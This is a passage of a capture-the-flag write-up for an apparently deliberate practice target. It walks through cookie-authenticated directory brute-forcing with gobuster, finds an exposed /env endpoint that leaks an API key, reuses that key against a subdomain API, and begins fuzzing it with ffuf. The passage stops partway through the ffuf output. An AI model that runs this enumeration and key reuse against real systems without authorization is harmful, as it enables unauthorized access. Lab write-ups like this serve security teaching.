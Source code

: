 When logged in as `admin`, there is a cookie titled `token` with a value of `2eff535bd75e77b62c70ba1e4dcb2873`. Since we're authenticted, we can try to bruteforce `/cpadmin` again.

`gobuster dir -u http://www.vulnbegin.co.uk/cpadmin/ -w /usr/share/wordlists/ctf/content.txt -t 1 -c "$ctfc;token=2eff535bd75e77b62c70ba1e4dcb2873" --delay .1s`
```
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.vulnbegin.co.uk/cpadmin
[+] Method:                  GET
[+] Threads:                 1
[+] Delay:                   100ms
[+] Wordlist:                /usr/share/wordlists/ctf/content.txt
[+] Negative Status codes:   404
[+] Cookies:                 $ctfc;token=2eff535bd75e77b62c70ba1e4dcb2873
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/12/11 20:35:20 Starting gobuster in directory enumeration mode
===============================================================
/env				  (Status: 200) [Size: 111]
/login                (Status: 302) [Size: 0] [--> /cpadmin]
/logout               (Status: 302) [Size: 0] [--> /cpadmin?logout=true]
===============================================================
2022/12/11 20:50:23 Finished
===============================================================
```

`/env` shows us another flag along with an API key:

```
{"api_key":"X-Token: 492E64385D3779BC5F040E2B19D67742","flag":"[^FLAG^F6A691584431F9F2C29A3A2DE85A2210^FLAG^]"}
```

## API Hijacking

The previously discovered subdomain, `server.vulnbegin.co.uk`, there was a response informing us that `User Not Authenticated`.

I tried, authenticating with the `token` cookie, but that didn't do anything, so I then tried authenticating with the api key header:

`curl -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: $ctfc" http://server.vulnbegin.co.uk`
```
{"messaged":"User Authenticated","flag":"[^FLAG^0BDC60CC5E283476E7107C814C18DCCF^FLAG^]"}
```


### Authenticated API Fuzzing

`ffuf -u http://server.vulnbegin.co.uk/FUZZ -w /usr/share/wordlists/ctf/content.txt -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: $ctfc" -t 1 -p 0.1` 
```
________________________________________________
:: Method           : GET
:: URL              : http://server.vulnbegin.co.uk/FUZZ
:: Header           : X-Token: 492E64385D3779BC5F040E2B19D67742
:: Header           : Cookie: $ctfc
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 1
:: Delay            : 0.1 seconds
:: Matcher          : Response status: all
```